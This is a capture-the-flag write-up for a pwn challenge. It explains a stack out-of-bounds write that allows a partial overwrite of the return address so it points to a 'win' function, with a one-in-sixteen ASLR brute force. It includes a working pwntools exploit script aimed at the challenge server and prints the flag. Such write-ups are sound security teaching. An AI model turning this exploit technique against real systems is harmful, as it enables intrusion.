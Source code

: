 https://ctftime.org/event/2512

# Pure Write-What-Where (pwn)

Straight to the point.

-ProfNinja

nc 0.cloud.chals.io 16612

## Analysis

`vuln` @ `0x124b`
- Reads in a 4 byte offset `scanf("%d, &local_7c)`
- Reads in a 2 byte value `scanf("%hd, local_7e)`
- Writes the 2 byte value at the 4 byte offset to a location on the stack `auStack_78[local_7c] = local_7e`
    - The location on the stack to write is computed as follows `word ptr [RBP + RAX*0x2 + -0x70],DX` @ `0x12c1`
        - e.g `RBP + (60 * 2) - 0x70 => RBP + 8`

## Solution

1) Specify `60` such that we write to the return address on the stack
    - i.e `RBP + (60 * 2) - 0x70 => RBP + 8`
2) Attempt to modify the last two bytes of the return address such that it points to `win`
    - Due to ASLR we only have a 1 in 16 chance of guessing the most significant nibble of the 2nd byte correctly
        - Therefore we must try a few times until our write happens to have the same value and effectively leaves this nibble unchanged

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = "critical"
elf = ELF("./pwnme", checksec=True)
context.binary = elf

while True:
    try:
        with remote("0.cloud.chals.io", 16612) as p:
            p.sendline(str(60).encode())
            p.sendline(str((elf.sym["win"] + 8) & 0xffff).encode())
            p.sendline(b"/bin/cat flag.txt")
            p.readline()
            p.readline()
            flag = p.readline()
            if b"udctf{" in flag:
                print(flag.decode()) # udctf{th3_0n3_1n_s1xt33n_pwn_str4t_FTW}
                break
    except:
        continue
```

## Flag
`udctf{th3_0n3_1n_s1xt33n_pwn_str4t_FTW}`

smiley 2024/11/10
